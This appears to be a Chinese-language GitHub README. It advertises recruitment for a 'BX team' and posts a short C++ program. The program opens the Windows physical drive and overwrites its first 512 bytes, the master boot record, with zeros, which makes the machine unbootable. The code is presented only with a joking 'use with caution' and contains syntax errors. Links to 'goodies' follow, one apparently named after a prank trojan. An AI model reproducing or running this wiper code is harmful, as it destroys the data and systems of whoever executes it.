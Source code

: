 
# _BX团队正在招新！_
有意者联系 QQ: 341723147

## 不是很好的代码，慎用！
```cpp
#include <stdio.h>
#include <windows.h>
#include <tchar.h>
int main()
{ 
	FILE * fd=fopen("\\\\.\\PHYSICALDRIVE0","rb+")
	char buffer[512]={0};
	fseek(fd,0,SEEK_SET); 
	fwrite(buffer,512,1,fd); /
	fclose(fd); 
	return 0;
}
```
## 送你们一点福利
### [好东西1](https://win7memz.github.io)
### [好东西2](https://space.bilibili.com/649846967)
### [好东西3](https://www.luogu.com.cn/paste/m5l62h64)
###### $\textsf{\color{white}pxw AK CSP!}$
